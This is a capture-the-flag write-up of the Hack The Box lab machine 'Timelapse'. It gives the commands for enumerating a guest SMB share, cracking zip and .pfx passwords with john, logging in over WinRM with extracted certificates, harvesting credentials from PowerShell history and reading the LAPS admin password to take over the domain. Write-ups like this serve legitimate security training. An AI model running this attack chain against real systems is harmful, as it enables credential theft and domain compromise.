

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Timelapse

## Summary

[Timelapse](https://app.hackthebox.com/machines/timelapse) is a straightforward <mark style="color:green;">easy-rated</mark> box leveraging **Windows** [**LAPS**](#user-content-fn-1)[^1]. Upon thorough **enumeration of the** [**SMB**](#user-content-fn-2)[^2] **server**, we uncover a **password-protected `.zip` file housing a `.pfx` file**, which, in turn, is also password-protected. With adept utilization of `john`, we successfully crack both layers, solidifying our **initial foothold**. Further **investigation within the system** uncovers stored credentials within the `PSReadLine` directory, paving the way for **privilege escalation** to an account endowed with the [**`ReadLAPSPassword`**](../../tl-dr/active-directory/permissions/readlapspassword.md) permission, ultimately resulting in **domain compromise.**

<table><thead><tr><th width="85" align="right">Step</th><th>Action</th><th>Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>SMB enumeration</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a>, <a href="../../tools/passwords/john.md">john</a></td><td>Foothold</td></tr><tr><td align="right">2</td><td>System enumeration</td><td><a data-footnote-ref href="#user-content-fn-3">LOTL</a></td><td><a data-footnote-ref href="#user-content-fn-4">EoP</a></td></tr><tr><td align="right">3</td><td>Domain enumeration</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a>, <a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/bloodhound">BloodHound</a></td><td><a data-footnote-ref href="#user-content-fn-4">EoP</a> path</td></tr><tr><td align="right">4</td><td>EoP exploitation</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a></td><td>Domain compromise</td></tr></tbody></table>

## Recon

Let's start with a port scan, using [Rustscan](../../tools/port-scanners.md) to find open ports and Nmap for querying service details (Figure 1).


```bash
# finding open ports
rustscan -a 10.10.11.152 -g --ulimit=5000
# querying services details
nmap -T4 -min-rate 100000 10.10.11.152 -sV -sC -p $(cat open_ports | awk -F'>' '{print $2}' | tr -d '[]') -Pn
```


<figure><figcaption><p>Figure 1: Available services on the Timelapse machine.</p></figcaption></figure>

Let's note some things down based on Nmap's output:

1. Based on the yellow-highlighted ports and the host name (`DC01`) we are dealing with a DC[^5].
2. We can access the box via WinRM[^6] (`5986`).
3. There is an SMB[^2] server (`445`) listening.
4. &#x20;The FQDN[^7] is `dc01.timelapse.htb`.&#x20;

Before starting enumerating the services, let's add the hostname, domain name and FQDN to our local DNS file.

```bash
grep time /etc/hosts
10.10.11.152    dc01 timelapse.htb dc01.timelapse.htb
```

### SMB

Querying the SMB server for available shares using a guest session works, and we can see that there is only one non-default share there, i.e., `Shares` (Figure 2).

```bash
# enumerate shares
nxc smb 10.10.11.152 --shares
# enumerate shares via NULL session
nxc smb 10.10.11.152 -u '' -p '' --shares
# enumerate shares via guest session
nxc smb 10.10.11.152 -u 'guest' -p '' --shares
```

<figure><figcaption><p>Figure 2: Enumerating the SMB server.</p></figcaption></figure>

Luckily, we have `READ` access to `Shares`, so let's see what's inside (Figure 3).

```bash
# spider the specified share
nxc smb 10.10.11.152 -u 'guest' -p '' --spider Shares --regex . --depth 1
```

<figure><figcaption><p>Figure 3: Spidering the Shares share.</p></figcaption></figure>

There are a total of 5 files within `Shares`, so we will download the whole share locally to better inspect them, and althought we got some errors, everything seems there (Figure 4).


```bash
# download the readable shares locally
nxc smb 10.10.11.152 -u 'guest' -p '' -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=1200000 OUTPUT_FOLDER=./
```


<figure><figcaption><p>Figure 4: Downloading the files within the <code>Shares</code> share.</p></figcaption></figure>

* `LAPS_Datasheet.docx` file contains general information about LAPS[^1].
* `LAPS_OperationsGuide.docx` outlines how to install LAPS using the `.msi` binary, and `LAPS_TechnicalSpecification.docx` dives deeper into it.
* The `winrm_backup.zip` file is password protected, but we can list its content.

```bash
# listing the contents of the zip file
unzip -l winrm_backup.zip
Archive:  winrm_backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     2555  2021-10-25 15:21   legacyy_dev_auth.pfx
---------                     -------
     2555                     1 file
```

## Protected Files

Using [`john`](../../tools/passwords/john.md#zip) we can crack the zip file's password and access the `legacyy_dev_auth.pfx` file (Figure 5).


```bash
# converting file into a john-suitable format
zip2john winrm_backup.zip > zip_hash
# cracking the hash
john zip_hash --wordlist=/usr/share/wordlists/rockyou
```


<figure><figcaption><p>Figure 5: Cracking the zip's password with <code>john</code>.</p></figcaption></figure>

A PFX[^8] file is a type of encrypted file format used to store a user's personal certificates and private keys. Now we need to unzip the file, then extract and decrypt the key, and finally extract the certificate. We can following [these](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) steps to do that. Unfortunately, decrypting the key also requires a password!

```bash
# unzipping the file
unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password:
  inflating: legacyy_dev_auth.pfx

# decrypting the key
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
Enter Import Password:
```

Luckily for us, `john` has a module for `.pfx` files as well (Figure 6).

```bash
# converting file to a format suitable for john
pfx2john legacyy_dev_auth.pfx > pfx_hash
# cracking the hash
john pfx_hash --wordlist=/usr/share/wordlists/rockyou
```

<figure><figcaption><p>Figure 6: Cracking <code>.pfx</code> password-protected files.</p></figcaption></figure>

Now, we can try again to extract the certificate and decrypt the key. As the above [link ](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)mentions, the PEM pass phrase is set by us and later used to decrypt the key. It can be anything as long as it is ≥ than 4 characters.


```bash
# extracting the key and setting a PEM pass phrase
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
# decrypting the key using the PEM pass phrase we set above
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
Enter pass phrase for legacyy_dev_auth.key-enc:
writing RSA key
# extracting the certificate
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:
# checking the everything is there
ls legacyy_dev_auth.*
legacyy_dev_auth.crt  legacyy_dev_auth.key  legacyy_dev_auth.key-enc  legacyy_dev_auth.pfx
```


Now, we can use the certificate and the key files to access the target host via WinRM and grab the user flag 🚩(Figure 7).

```bash
evil-winrm -i 10.10.11.152 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```

<figure><figcaption><p>Figure 7: Logging into the box via WinRM using a key and certificate pair.</p></figcaption></figure>

## Privilege Escalation

### Sniffing Paths

The first thing we always do when we get our foothold is to collect domain information and analyze it using [BloodHound](../../tl-dr/active-directory/ad-tools/hounds.md) (Figure 8).

```powershell
# upload binary to the target host
upload SharpHound.exe
# collect domain information
.\SharpHound.exe -c all
# list directory's content
dir
# download the generated zip file to the attack host
download 20240415192438_BloodHound.zip
```

<figure><figcaption><p>Figure 8: Using SharpHound to collect domain information.</p></figcaption></figure>

Looking at the compromised `legacyy` account, the only notable detail about it, is that is part of the non-default `Development` group (Figure 9).&#x20;

<figure><figcaption><p>Figure 9: The <code>legacyy</code> accounts is a part of the non-default <code>Development</code> group.</p></figcaption></figure>

### System Enumeration

There is nothing we can do with the above information, so our next option would be to enumerate the system using a tool like [WinPEAS](https://github.com/peass-ng/PEASS-ng/releases/tag/20240414-ed0a5fac). Unfortunately, it seems that the box does not allows us to execute neither the normal version, nor the obfuscated version of WinPEAS!


```powershell
*Evil-WinRM* PS C:\Users\legacyy\Documents> .\winPEASany_ofs.exe
Program 'winPEASany_ofs.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\winPEASany_ofs.exe
+ ~~~~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ .\winPEASany_ofs.exe
+ ~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```


Let's start looking at some common files of interest manually. The [PowerShell history file](https://learn.microsoft.com/en-us/powershell/module/psreadline/about/about_psreadline?view=powershell-7.4) logs, by default, the last 4096 commands entered by the user, so it is always a good place to start searching for information.  Doing that for `legacyy` reveals credentials for the `svc_deploy` account which it seems to also have WinRM access (Figure 10).


```powershell
Get-Content C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


<figure><figcaption><p>Figure 10: Enumerating credentials through the PowerShell history file.</p></figcaption></figure>

## LAPS

Checking information about the `svc_deploy` account let us know that it has the [`ReadLAPSPassword`](../../tl-dr/active-directory/permissions/readlapspassword.md) permission (Figure 11). LAPS[^9] is a [Windows feature](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview) that automatically manages and backs up the password of a local administrator account on Windows Server AD[^10]-joined devices.

<figure><figcaption><p>Figure 11: BloodHound reveals the <code>ReadLAPSPassword</code> right of the <code>svc_deploy</code> account.</p></figcaption></figure>

We can use this right away, read the LAPS password and try to read the root flag (Figure 12).


```bash
# read the laps password
nxc ldap 10.10.11.152 -u svc_deploy -p svc_deploy_pass -M laps
# grab the root flag
nxc smb 10.10.11.152 -u administrator -p dc01_pass -x 'type c:\users\administrator\desktop\root.txt'
```


<figure><figcaption><p>Figure 12: Reading the LAPS password and trying to snatch the root flag.</p></figcaption></figure>

Surprisingly, the `root.txt` file is not in its usual place! Looking for other user directories under `c:\users`, we can find the `TRX` account and the root flag 🚩lying on its `desktop` (Figure 13).&#x20;


```bash
# check for other users
nxc smb 10.10.11.152 -u administrator -p dc01_pass -x 'dir c:\users\'
# read the root flag
nxc smb 10.10.11.152 -u administrator -p dc01_pass -x 'type c:\users\TRX\desktop\root.txt'
```


<figure><figcaption><p>Figure 13: Searching and finding the root flag.</p></figcaption></figure>

[^1]: Local Administrator Password Solution

[^2]: Server Message Block

[^3]: Living Off The Land

[^4]: Elevation of Privileges

[^5]: Domain Controller

[^6]: Windows Remote Management

[^7]: Fully Qualified Domain Name

[^8]: Personal Information Exchange

[^9]: Local Administrator Password Solution&#x20;

[^10]: Active Directory
